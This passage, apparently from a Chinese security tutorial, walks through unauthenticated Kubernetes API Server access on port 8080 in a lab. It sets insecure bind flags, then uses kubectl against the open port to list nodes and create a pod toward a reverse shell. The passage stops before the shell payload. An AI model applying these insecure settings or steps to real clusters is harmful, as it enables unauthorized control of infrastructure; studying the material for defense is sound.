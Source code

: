 K8S 组件的问题主要是指各组件的不安全配置，攻击点1~4罗列了4个比较有代表性的组件问题，即 API Server 未授权访问、etcd 未授权访问、kubelet 未授权访问、kube-proxy 不安全配置。  
  
各个组件存在隐患的默认端口，供参考：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9lG9eZ2AR0Ee2VHaNy00f8Dsq8n8dib1ESaR1ZjYCc75FZefU9aF0FlQ/640?wx_fmt=png&from=appmsg "")  
  
### 4.1.1 8080端口，API Server未授权访问 （master节点）  
  
旧版本的k8s的API Server默认会开启两个端口：8080和6443。6443是安全端口，安全端口使用TLS加密；但是8080端口无需认证，仅用于测试。6443端口需要认证，且有 TLS 保护。（k8s<1.16.0）新版本k8s默认已经不开启8080。  
  
需要更改kube-apiserver.yaml相应的配置  
```
cd /etc/kubernetes/manifests/
vi  kube-apiserver.yaml
```  
  
加入  
```
- --insecure-port=8080
- --insecure-bind-address=0.0.0.0
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9Y0Ppqe4fsGeQR7DfIxhT9xH89rBM4I8qiahMsEI4iaeAvII2JvgJwk0w/640?wx_fmt=png&from=appmsg "")  
  
然后重启kubelet  
```
systemctl restart kubelet
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9xqojfyQ0U5aHCPsh6ibFvPn6nquiabk2MFufN9HpbxOyDShicnTQNMlAg/640?wx_fmt=png&from=appmsg "")  
  
  
此时访问8080就可以发现未授权访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9aDN3Eiazle8rAnflT4bpYJdIGdh51F0icTyic1Q2MOIWsGLgxSQZ0wWTg/640?wx_fmt=png&from=appmsg "")  
  
#### 漏洞利用，反弹shell  
  
可使用官方的工具进行利用  
  
下载地址：https://kubernetes.io/zh-cn/docs/tasks/tools/  
  
这里我用的是windows版本的进行演示  
  
获取nodes节点  
```
kubectl.exe -s 192.168.19.58:8080 get nodes
```  
  
获取pods  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9NSfvAJHq5RRdIia29ibMia81rMq0sdO47NNey4XtPHocicI6Vk8AoYZxnw/640?wx_fmt=png&from=appmsg "")  
  
  
创建 创建Pod 文件。（通过未授权访问在node节点上创建一个pod）  
```
kubectl -s 192.168.19.58:8080 create -f test.yaml
```  
  